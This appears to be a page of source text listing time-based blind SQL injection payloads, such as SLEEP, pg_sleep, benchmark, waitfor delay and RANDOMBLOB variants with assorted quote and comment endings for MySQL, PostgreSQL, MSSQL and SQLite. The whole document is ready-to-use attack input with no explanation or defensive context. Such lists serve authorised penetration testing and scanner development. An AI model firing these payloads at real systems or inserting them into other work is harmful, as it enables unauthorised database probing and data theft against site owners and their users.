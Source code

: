           ") or benchmark(10000000,MD5(1))#
          ') or benchmark(10000000,MD5(1))#
          1)) or benchmark(10000000,MD5(1))#
          ")) or benchmark(10000000,MD5(1))#
          ')) or benchmark(10000000,MD5(1))#
          pg_sleep(5)--
          1 or pg_sleep(5)--
          " or pg_sleep(5)--
          ' or pg_sleep(5)--
          1) or pg_sleep(5)--
          ") or pg_sleep(5)--
          ') or pg_sleep(5)--
          1)) or pg_sleep(5)--
          ")) or pg_sleep(5)--
          ')) or pg_sleep(5)--
          AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
          AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
          AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
          AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
          AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
          SLEEP(5)#
          SLEEP(5)--
          SLEEP(5)="
          SLEEP(5)='
          or SLEEP(5)
          or SLEEP(5)#
          or SLEEP(5)--
          or SLEEP(5)="
          or SLEEP(5)='
          waitfor delay '00:00:05'
          waitfor delay '00:00:05'--
          waitfor delay '00:00:05'#
          benchmark(50000000,MD5(1))
          benchmark(50000000,MD5(1))--
          benchmark(50000000,MD5(1))#
          or benchmark(50000000,MD5(1))
          or benchmark(50000000,MD5(1))--
          or benchmark(50000000,MD5(1))#
          pg_SLEEP(5)
          pg_SLEEP(5)--
          pg_SLEEP(5)#
          or pg_SLEEP(5)
          or pg_SLEEP(5)--
          or pg_SLEEP(5)#
          '\"
          AnD SLEEP(5)
          AnD SLEEP(5)--
          AnD SLEEP(5)#
          &&SLEEP(5)
          &&SLEEP(5)--
          &&SLEEP(5)#
          ' AnD SLEEP(5) ANd '1
          '&&SLEEP(5)&&'1
          ORDER BY SLEEP(5)
          ORDER BY SLEEP(5)--
          ORDER BY SLEEP(5)#
          (SELECT * FROM (SELECT(SLEEP(5)))ecMj)
          (SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
          (SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
          +benchmark(3200,SHA1(1))+'
          + SLEEP(10) + '
          RANDOMBLOB(500000000/2)
          AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
          OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
